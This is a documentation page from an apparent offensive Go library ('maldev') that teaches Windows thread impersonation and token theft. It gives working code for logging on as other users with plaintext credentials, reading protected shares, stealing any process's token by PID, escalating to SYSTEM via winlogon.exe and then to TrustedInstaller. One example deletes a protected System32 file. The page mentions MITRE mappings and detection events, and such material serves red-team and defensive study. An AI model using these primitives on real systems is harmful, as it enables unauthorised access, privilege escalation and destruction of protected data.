

---
---

# Thread Impersonation

[<- Back to Tokens Overview](README.md)

**MITRE ATT&CK:** [T1134.001 - Access Token Manipulation: Token Impersonation/Theft](https://attack.mitre.org/techniques/T1134/001/)
**D3FEND:** [D3-TAAN - Token Authentication and Authorization Normalization](https://d3fend.mitre.org/technique/d3f:TokenAuthenticationandAuthorizationNormalization/)

---

## TL;DR

You stole / borrowed another user's token (via [token-theft](token-theft.md)
or `LogonUserW`). To USE that token for an operation (open a
file as them, hit an SMB share with their creds), you attach
it to a thread — that thread now acts as that user until you
revert.

| You want… | Use | Scope |
|---|---|---|
| Run a callback as another user | [`As`](#as) | One callback's lifetime; auto-revert |
| Long-lived impersonation across calls | `ImpersonateLoggedOnUser` + manual revert | Until `RevertToSelf` |
| Per-thread, parallel impersonations | `runtime.LockOSThread` + `As` per goroutine | One per OS thread |

What this DOES achieve:

- Network operations (SMB, WinRM, MSRPC) authenticate as the
  impersonated user — useful for accessing shares your
  current token can't reach.
- File / registry access checks against the impersonated
  token's ACLs.
- Scoped + reversible — the token attaches to ONE thread,
  not the whole process.

What this does NOT achieve:

- **Doesn't change WHO the process is** — Process Hacker /
  Sysmon EID 1 still see your real user. Impersonation is
  per-thread and per-API-call.
- **Goroutine ↔ OS-thread mismatch** — Go's scheduler can
  move your goroutine onto a different OS thread mid-call,
  losing the impersonation. `runtime.LockOSThread` is
  mandatory before `ImpersonateLoggedOnUser`.
- **Doesn't survive `CreateProcess`** — child processes
  inherit the PROCESS token, not the THREAD token. To spawn
  AS the impersonated user, use [`token-theft`](token-theft.md)'s
  `CreateProcessWithToken` path instead.
- **`SeImpersonatePrivilege` required** — most service
  accounts have it; standard user does not. Check before
  trying.

---

## Primer

Token theft gives you a copy of someone else's badge. Thread impersonation goes further -- it lets a specific thread in your process temporarily wear that badge to perform actions as that user, then revert back to your original identity.

**Temporarily wearing someone else's uniform for a specific task.** You log in as another user (with their credentials), impersonate their identity on a locked OS thread, do the work, then call `RevertToSelf()` to become yourself again. The impersonation is scoped to a single thread and automatically cleaned up.

---

## How It Works

### Impersonation Flow



### Why LockOSThread is Required

```mermaid
flowchart TD
    subgraph "Without LockOSThread (BROKEN)"
        A1["goroutine calls\nImpersonateLoggedOnUser"] --> A2["Go scheduler moves\ngoroutine to OS Thread 2"]
        A2 --> A3["OS Thread 1 still impersonating\nOS Thread 2 is NOT impersonating"]
        A3 --> A4["Operations use WRONG identity"]
    end

    subgraph "With LockOSThread (CORRECT)"
        B1["goroutine calls\nruntime.LockOSThread()"] --> B2["goroutine calls\nImpersonateLoggedOnUser"]
        B2 --> B3["Go scheduler CANNOT\nmove this goroutine"]
        B3 --> B4["All operations on\nimpersonated OS thread"]
        B4 --> B5["RevertToSelf()"]
        B5 --> B6["runtime.UnlockOSThread()"]
    end

    style A4 fill:#f66,color:#fff
    style B4 fill:#4a9,color:#fff
```



---

## Usage

### Basic Thread Impersonation

```go
import "github.com/oioio-space/maldev/win/impersonate"

err := impersonate.ImpersonateThread(
    false,           // not domain-joined
    ".",             // local machine
    "admin",         // username
    "Password123!",  // password
    func() error {
        // Everything in this callback runs as "admin"
        user, domain, _ := impersonate.ThreadEffectiveTokenOwner()
        fmt.Printf("Running as: %s\\%s\n", domain, user)

        // Perform privileged operations here
        return nil
    },
)
```

### Domain Impersonation

```go
err := impersonate.ImpersonateThread(
    true,                // domain-joined
    "CORP",              // domain name
    "svc_backup",        // domain user
    "BackupP@ss2024!",   // password
    func() error {
        // Running as CORP\svc_backup
        // Access network shares, domain resources, etc.
        return nil
    },
)
```

### Low-Level: LogonUserW + ImpersonateLoggedOnUser

```go
import (
    "runtime"
    "github.com/oioio-space/maldev/win/impersonate"
    "github.com/oioio-space/maldev/win/token"
    "golang.org/x/sys/windows"
)

runtime.LockOSThread()
defer runtime.UnlockOSThread()

// Log in as another user
t, err := impersonate.LogonUserW(
    "admin", ".", "Password123!",
    impersonate.LOGON32_LOGON_INTERACTIVE,
    impersonate.LOGON32_PROVIDER_DEFAULT,
)
if err != nil {
    log.Fatal(err)
}

wt := token.New(t, token.Impersonation)
defer wt.Close()

// Enable privileges on the token
wt.EnableAllPrivileges()

// Impersonate on this thread
impersonate.ImpersonateLoggedOnUser(wt.Token())
defer windows.RevertToSelf()

// Perform actions as the impersonated user
user, domain, _ := impersonate.ThreadEffectiveTokenOwner()
fmt.Printf("Impersonating: %s\\%s\n", domain, user)
```

---

## Combined Example: Impersonate + Access Protected Resource

```go
package main

import (
    "fmt"
    "os"

    "github.com/oioio-space/maldev/win/impersonate"
)

func main() {
    // Check current identity
    user, domain, _ := impersonate.ThreadEffectiveTokenOwner()
    fmt.Printf("Before: %s\\%s\n", domain, user)

    // Impersonate a service account to read a protected file
    err := impersonate.ImpersonateThread(
        true,              // domain account
        "CORP",
        "svc_fileserver",
        "FileServ!2024",
        func() error {
            // Running as CORP\svc_fileserver
            user, domain, _ := impersonate.ThreadEffectiveTokenOwner()
            fmt.Printf("During: %s\\%s\n", domain, user)

            // Read a file only accessible to svc_fileserver
            data, err := os.ReadFile(`\\fileserver\share$\sensitive.dat`)
            if err != nil {
                return err
            }
            fmt.Printf("Read %d bytes from protected share\n", len(data))
            return nil
        },
    )
    if err != nil {
        fmt.Println("Impersonation failed:", err)
    }

    // Back to original identity
    user, domain, _ = impersonate.ThreadEffectiveTokenOwner()
    fmt.Printf("After: %s\\%s\n", domain, user)
}
```

---

## Advantages & Limitations

### Advantages

- **Scoped impersonation**: `ImpersonateThread` handles LockOSThread + RevertToSelf automatically
- **Privilege escalation**: `EnableAllPrivileges` called on the token before impersonation
- **Domain support**: Works with both local and domain accounts
- **errgroup integration**: Uses `golang.org/x/sync/errgroup` for clean error propagation
- **Thread safety**: `runtime.LockOSThread()` ensures impersonation stays on the correct OS thread

### Limitations

- **Requires credentials**: Needs plaintext username and password (not a token)
- **Logon type limitations**: `LOGON32_LOGON_INTERACTIVE` requires "Allow log on locally" right
- **Network logon restrictions**: Local accounts cannot access network resources via type 2 logon
- **Detectable**: `LogonUserW` creates logon events (Event ID 4624) in the Security log
- **Single thread**: Only the locked OS thread is impersonated -- other goroutines run as the original user

---

## Composable Elevation

The `impersonate` package provides composable elevation primitives that chain
together: `ImpersonateByPID` is the building block, `GetSystem` uses it to
reach SYSTEM via winlogon.exe, and `GetTrustedInstaller` composes `GetSystem`
with the TrustedInstaller service to reach the highest privilege level.

All three follow the callback pattern -- the elevated identity is scoped to the
callback and automatically reverted when it returns.

### ImpersonateByPID

Steal and impersonate the token of any process by PID. Requires
SeDebugPrivilege for cross-session processes.

```go
import "github.com/oioio-space/maldev/win/impersonate"

// Impersonate the token of PID 1234
err := impersonate.ImpersonateByPID(1234, func() error {
    user, domain, _ := impersonate.ThreadEffectiveTokenOwner()
    fmt.Printf("Running as: %s\\%s\n", domain, user)
    return nil
})
```

### GetSystem

Elevate to NT AUTHORITY\SYSTEM by stealing the winlogon.exe token.
Requires admin + SeDebugPrivilege.

```go
err := impersonate.GetSystem(func() error {
    user, domain, _ := impersonate.ThreadEffectiveTokenOwner()
    fmt.Printf("Running as: %s\\%s\n", domain, user)
    // NT AUTHORITY\SYSTEM — full kernel-level access
    return nil
})
```

### GetTrustedInstaller

Elevate to NT SERVICE\TrustedInstaller -- the highest privilege level on
Windows. Internally composes `GetSystem` (to open the TI service process)
with `ImpersonateByPID` (to steal the TI token). Requires admin +
SeDebugPrivilege.

```go
err := impersonate.GetTrustedInstaller(func() error {
    user, _, _ := impersonate.ThreadEffectiveTokenOwner()
    fmt.Printf("Running as: %s\n", user) // TrustedInstaller

    // Modify protected system files, registry keys, etc.
    return nil
})
```

### Composition Example

```go
// Chain: admin -> SYSTEM -> TrustedInstaller -> back to admin
// All within a single function call
err := impersonate.GetTrustedInstaller(func() error {
    // Delete a protected system file
    return os.Remove(`C:\Windows\System32\protected.dll`)
})
// Thread has reverted to original identity here
```

---

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/win/impersonate`](https://pkg.go.dev/github.com/oioio-space/maldev/win/impersonate) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## See also

- [Tokens area README](README.md)
- [`tokens/token-theft.md`](token-theft.md) — supplies the stolen handle this primitive impersonates with
- [`tokens/privilege-escalation.md`](privilege-escalation.md) — once impersonated, adjust privileges on the new context
